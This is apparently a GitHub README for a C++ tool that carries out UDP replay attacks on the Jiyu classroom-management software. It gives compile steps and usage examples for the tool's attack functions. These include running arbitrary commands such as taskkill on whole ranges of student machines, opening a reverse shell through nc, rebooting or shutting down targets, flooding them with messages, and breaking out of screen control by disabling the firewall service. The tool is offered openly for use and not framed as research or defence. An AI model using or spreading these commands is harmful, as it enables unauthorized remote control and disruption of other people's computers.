 # Jiyu-UDP-Attack-Cpp
A UDP replay attack code for Jiyu, written in C++.

中文文档见 [README_zh.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README_zh.md)

## Compile
Required C++ version: C++14

Compile command:

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### GCC / MinGW (On Windows)
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

### GCC / MinGW (On Linux)
```bash
g++ main.cpp -o main -std=c++14
```

Note when using GCC / MinGW compiler on Windows:  
Make sure Windows-related library is in the library directory.  
Do not forget the compile argument `-lws_32`. If not using command line, add this argument to the compile options in your IDE.

## Usage
Start UI by simply run the program or call:
```bash
main
```

Or, run on command line:
```bash
main [-h(--help) |
  [-ip <IP>] [-p <Port>] [-msg <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

Arguments:
| Argument | Description | Default |
| -------- | ----------- | ------- |
| `-h(--help)` | Show help text. | |
| `-ip <IP>` | Specify the IP of target. | |
| `-p <Port>` | Specify which port to listen to. | 4705 |
| `-msg <Message>` | Specify the message to send. | |
| `-c <Command>` | Command to run on target machine. | |
| `-e <Extra Option>` | Load extra option. | |
| `-l <Loop Count>` | Specify the loop count of the command. | 1
| `-c <Loop Time Interval>` | Specify the loop's interval time of the command, in seconds. | 22 |
| `-ncport <NC Port>` | Specify which port for `nc` command to listen to. | 8888 |

Available options for `<Extra Option>` of `-e` argument:
| Option | Description |
| ------ | ----------- |
| `r` | Reboot the target machine. |
| `s` | Shutdown the target machine. |
| `g` | Get your current IP address and the port which Student Terminal listens to. |
| `nc` | Reverse shell. Needs Internet access on target machine. Use command `exit` to exit. |
| `break` | Get out of screen control. Needs administrator access. |
| `continue` | Recover screen control. |

Target IP available for `<IP>` of `-ip` argument:
- A direct IP. eg. `192.168.1.1`
- An IP segment. eg. `192.168.1.2-10`  
Note:  
Only the last number of an IP is availble to be a segment.  
This is illegal: `192.168.1-80.1`

### Examples
1. Get your IP address and the port which Student Terminal listens to:

```bash  
main -e g
```

2. Get out of screen control:

Needs administrator access, mainly for MpsSvc.
```bash
main -e break
```

3. Recover screen control:

```bash
main -e continue
```

4. Send message:

Send a piece of message "Hello!" to target machine with IP `192.168.1.1`:
```bash
main -ip 192.168.1.1 -msg "Hello!"
```

If the port which Student Terminal listens to is **4605**, use `-p <Port>` to specify the port. Send a piece of message "Hello!" to target machine with IP `192.168.1.12`:
```bash
main -ip 192.168.1.12 -p 4605 -msg "Hello!"
```

5. Run command:

Pop up a calculator for target machines with ip `192.168.1.12` to `192.168.1.137`:
```bash
main -ip 192.168.1.12-137 -c calc.exe
```

If the command to run has space in it, use a pair of quote to wrap:
```bash
main -ip 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. Reverse shell:

The ip of target machine should **not** be a segment.
```bash
main -ip 192.168.1.1 -e nc
```

7. Shutdown and reboot:

Shutdown:
```bash
main 192.168.1.1 -e s
```

Reboot:
```bash
main 192.168.1.1 -e r
```

8. Loop command:

Send message to target machines with IP `192.168.1.1` to `192.168.1.254`, continue to execute after 50s, totally 3 times:
```bash
main -ip 192.168.1.1-254 -msg "hello,baby!" -l 3 -t 50
```

## About
Inspired by: [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack)

## License
[MIT License](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
